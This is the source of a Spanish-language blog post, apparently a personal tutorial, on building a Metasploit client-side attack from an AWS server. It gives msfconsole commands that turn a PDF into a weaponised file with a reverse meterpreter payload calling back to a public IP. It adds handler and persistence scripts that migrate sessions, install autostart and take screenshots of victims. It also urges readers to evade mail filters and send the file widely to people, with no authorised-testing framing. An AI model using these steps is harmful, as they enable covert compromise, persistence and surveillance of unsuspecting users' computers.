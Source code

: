 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}
<p class="date">{{ page.date | date_to_string }}</p>

<div style="text-align: center;"><img style="width: 527px; height: 243px;" src="/assets/img/60.png"></div>

<h4>Introducción</h4>

<div class="p">Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.
</div>

<div class="p">Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.
</div>

<div class="p">Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...
</div>


<h3>Instalación</h3>

<div class="p">Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos
</div>

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

<div class="p">Gemas necesarias:
</div>

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

<div class="p">Metasploit
</div>

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

<div class="p">Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):
</div>

<pre class="sh_sh">
$ sudo su
# 
</pre>

<ul>
    <li><a href="http://www.darkoperator.com/installing-metasploit-in-ubunt/" target="_blank">http://www.darkoperator.com/installing-metasploit-in-ubunt/</a></li>
    <li><a href="https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment" target="_blank">https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment</a></li>
</ul>

<h3>Payload</h3>

<div class="p">Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:
</div>

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

<div class="p">Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.
</div>

<ul>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks</a></li>
</ul>

<h3>Handler (servidor)</h3>

<div class="p">Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.
</div>

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

<ul>
    <li><a href="http://johnbabio.wordpress.com/tag/autorunscript/" target="_blank">http://johnbabio.wordpress.com/tag/autorunscript/</a></li>
    <li><a href="https://community.rapid7.com/community/metasploit/blog/2010/03/22/automating-the-metasploit-console" target="_blank">https://community.rapid7.com/community/metasploit/blog/2010/03/22/automating-the-metasploit-console</a></li>
</ul>

<div class="p">Listop, a empezar a divertirnos
</div>

<ul>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics</a></li>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules</a></li>
    <li><a href="http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/" target="_blank">http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/</a></li>
    <li><a href="http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html" target="_blank">http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html</a></li>
</ul>
